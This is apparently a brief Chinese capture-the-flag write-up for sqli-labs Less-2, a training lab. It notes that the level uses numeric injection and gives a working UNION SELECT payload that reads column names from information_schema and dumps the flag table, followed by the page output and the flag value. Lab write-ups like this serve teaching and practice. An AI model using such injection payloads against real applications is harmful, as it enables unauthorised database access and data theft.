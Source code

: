 题目：sqli-labs less2

此题与[less1](./less-1.md)区别在于此题为数字型注入。
因此在url后加入`?id=0 union select '123',(SELECT Group_concat(column_name) FROM information_schema.columns where table_schema='ctftraining' and table_name='flag'),(SELECT Group_concat(flag) FROM ctftraining.flag) --+`，访问和，得到`flag`
```
Welcome    Dhakkan
Your Login name:flag
Your Password:flag{062c46c6-b29f-4f59-89f5-2c10de61fe75}
```
`flag`:`flag{062c46c6-b29f-4f59-89f5-2c10de61fe75}`